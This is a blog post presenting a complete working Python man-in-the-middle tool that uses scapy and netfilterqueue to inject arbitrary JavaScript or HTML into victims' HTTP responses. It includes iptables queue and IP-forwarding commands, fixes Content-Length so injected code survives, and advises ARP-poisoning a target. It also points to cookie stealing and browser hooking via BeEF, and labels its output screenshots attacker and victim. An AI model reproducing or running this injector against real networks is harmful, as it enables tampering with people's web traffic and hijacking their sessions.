 ```yaml
---
title: A Code Injector program
date: 2021-07-29 09:45:47 +07:00
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
description: A program to injects arbitary code  into the response of a HTTP request.
---
```



<p align="left">
 <img src="https://pbs.twimg.com/media/EXiXVKVXsAA5uO7?format=jpg&name=small">
</p>



## This is a python script that injects arbitary code (JS,HTML,PHP...) into the response of a HTTP request.

* The program works only on HTTP sites.

* We use IPTABLES to build a queue to intercept traffic. Based on INPUT(inboud traffic),OUTPUT(outbound traffic) and FORWARD(traffic from remote hosts).
The program automatically runs these commands, if it dosen't work for some reason, run the following commands to build a queue alongside when running the program -

> `iptables -I INPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for inbound traffic.

> `iptables -I OUTPUT -j NFQUEUE --queue-num 0` --> Intercept Queue for outbound traffic.

> `iptables --flush` --> flush rules after completion.

* We filter the traffic like an intercepting proxy would to filter and modify HTTP responses for the target site to inject our malicious script just before the __\<body\>__ tag of the HTML response source. Many avenues of attacks can be performed like browser hooking, cookie stealing etc by using external frameworks like BEEF.


* While altering the response one thing to note is that the injected code gets cut off due to the "Content-Length" limitations. Hence we alter the Content-Length too by adding the length of the injected code to the original Content-Length.


### Code:

```python
#!/usr/bin/env python

import scapy.all as scapy
import netfilterqueue
import argparse
import re


# Parse Args
def get_arguments():
    parser = argparse.ArgumentParser()
    parser.add_argument("-f", "--file-to-inject", dest="file", help="File/Code to Inject", type=str)
    options = parser.parse_args()
    if not options.file:
        # code to handle error
        parser.error("\n[-] Please specify a valid file with code to inject(js,HTML,php...),  use --help for info.")
    File = open(options.file, 'r')
    f = File.readlines()
    code = ""
    for line in f:
        code += line.strip()
    return(code)

# Alter packets load
def set_load(packet, load):
    packet[scapy.Raw].load = load
    del packet[scapy.IP].len
    del packet[scapy.TCP].chksum
    del packet[scapy.IP].chksum
    return packet


def process_packet(packet):
    scapy_packet = scapy.IP(packet.get_payload())
    if scapy_packet.haslayer(scapy.Raw):
        #print(scapy_packet.show())
        try:
            load = scapy_packet[scapy.Raw].load.decode()
            if scapy_packet[scapy.TCP].dport == 80:
                print("\n[+] Request from: " + scapy_packet[scapy.IP].src)
                load = re.sub("Accept-Encoding:.*?\\r\\n", "", load)
            elif scapy_packet[scapy.TCP].sport == 80:
                print("[+] Response from: " + scapy_packet[scapy.IP].src)
                injection_code = code
                # Appends injected code before terminating </body> tag
                load = load.replace("</body>", injection_code + "</body>")
                # Capture non capturing groups and use non capturing regex --> (?:...)
                content_length_search = re.search("(?:Content-Length:\s)(\d*)", load)
                if content_length_search and "text/html" in load:
                    content_length = content_length_search.group(1)
                    new_content_length = int(content_length) + len(injection_code)
                    load = load.replace(content_length, str(new_content_length))
            # Exec if load is modified
            if load != scapy_packet[scapy.Raw].load:
                print("[!] Response Injected!")
                new_packet = set_load(scapy_packet, load)
                packet.set_payload(bytes(new_packet))
        # Irrelevant HTML data
        except UnicodeDecodeError:
            pass
    packet.accept()

print("""
                              (                                       
   (          (           )\ )                        )           
   )\         )\ )   (   (()/(       (     (       ( /(      (    
 (((_)   (   (()/(  ))\   /(_)) (    )\   ))\  (   )\()) (   )(   
 )\___   )\   ((_))/((_) (_))   )\ )((_) /((_) )\ (_))/  )\ (()\  
((/ __| ((_)  _| |(_))   |_ _| _(_/(  ! (_))  ((_)| |_  ((_) ((_) 
 | (__ / _ \/ _` |/ -_)   | | | ' \))| |/ -_)/ _| |  _|/ _ \| '_| 
  \___|\___/\__,_|\___|  |___||_||_|_/ |\___|\__|  \__|\___/|_|   
                                   |__/                           
""")

print("[-] Specify a file to inject code from to poison any HTTP websites source.\n\n")
print("[NOTE:] To sniff a target remote system, ARP Poison the target's cache to allow all DNS requests to flow through this machine\n\n")
print("""
[!] Run the following commands as root before using this program to setup IPTABLE rules.

1. iptables -I OUTPUT -j NFQUEUE --queue-num 0
2. iptables -I INPUT -j NFQUEUE --queue-num 0
3. echo 1 > /proc/sys/net/ipv4/ip_forward

""")

try:
    code = get_arguments()
    queue = netfilterqueue.NetfilterQueue()
    # Bind to created queue using iptables; process_packet-->callback()
    queue.bind(0, process_packet)
    queue.run()
except KeyboardInterrupt:
    print("\n[-] Detected CTRL + C ......\n\n\n Exiting Program!")
```

### Output:

_Attacker:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject3.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject4.png)


_Victim:_

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject1.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject2.png)

![Image](https://raw.githubusercontent.com/m3rcer/m3rcer.github.io/master/_posts/coding/python/CodeInjector/code_inject5.png)

